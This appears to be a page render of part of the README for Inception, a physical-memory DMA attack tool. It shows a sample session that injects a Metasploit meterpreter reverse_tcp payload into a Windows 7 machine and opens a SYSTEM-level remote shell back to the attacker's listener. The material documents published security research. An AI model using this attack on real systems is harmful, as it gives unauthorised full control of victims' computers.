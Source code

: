      _|  _|      _|    _|_|_|  _|_|_|_|  _|_|_|    _|_|_|  _|    _|_|    _|      _|
     _|  _|_|    _|  _|        _|        _|    _|    _|    _|  _|    _|  _|_|    _|
     _|  _|  _|  _|  _|        _|_|_|    _|_|_|      _|    _|  _|    _|  _|  _|  _|
     _|  _|    _|_|  _|        _|        _|          _|    _|  _|    _|  _|    _|_|
     _|  _|      _|    _|_|_|  _|_|_|_|  _|          _|    _|    _|_|    _|      _|

    v.0.4.0 (C) Carsten Maartmann-Moe 2014
    Download: https://github.com/carmaa/inception | Twitter: @MaartmannMoe

    [?] Will potentially write to file. OK? [y/N] y
    [!] This module currently only work as a proof-of-concept against Windows 7 SP1
        x86. No other OSes, versions or architectures are supported, nor is there
        any guarantee that they will be supported in the future.
    [?] What MSF payload do you want to use? windows/meterpreter/reverse_tcp
    [*] Selected options:
    [*] LPORT: 4444
    [*] LHOST: 172.16.1.1
    [*] EXITFUNC: thread
    [*] Stage 1: Searcing for injection point
    [================================>                             ]  537 MiB ( 53%)
    [*] Signature found at 0x219d118c in page no. 137681
    [*] Patching at 0x219d118c
    [\] Waiting to ensure stage 1 execution
    [*] Restoring memory at initial injection point
    [*] Stage 2: Searching for page allocated in stage 1
    [=========================>                                    ]  434 MiB ( 42%)
    [*] Signature found at 0x1b2d9000 in page no. 111321
    [*] Patching at 0x1b2d9000
    [*] Patch verified; successful
    [*] BRRRRRRRAAAAAWWWWRWRRRMRMRMMRMRMMMMM!!!

In your MSF console, you should see something similar to this:

    msf exploit(handler) > [*] Sending stage (769536 bytes) to 172.16.78.200
    [*] Meterpreter session 1 opened (172.16.1.1:4444 -> 172.16.78.200:49178) at 2014-08-30 16:23:31 +0200

    msf exploit(handler) > sessions

    Active sessions
    ===============

      Id  Type                   Information                            Connection
      --  ----                   -----------                            ----------
      1   meterpreter x86/win32  NT AUTHORITY\SYSTEM @ WIN-11FMQRBAMJ6  172.16.1.1:4444 -> 172.16.78.200:49178 (172.16.78.200)

    msf exploit(handler) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM


### Dump


[1]: http://inception.davepedu.com
[2]: https://wikileaks.org/spyfiles/files/0/293_GAMMA-201110-FinFireWire.pdf
[3]: http://freddie.witherden.org/tools/libforensic1394/
[4]: http://mxcl.github.io/homebrew/
[5]: http://www.breaknenter.org/projects/inception/
[6]: http://support.apple.com/en-us/HT202348
[7]: http://www.microsoft.com/en-us/download/details.aspx?id=41671
[8]: https://www.youtube.com/watch?v=0FoVmBOdbhg
[9]: http://www.w3schools.com/browsers/browsers_os.asp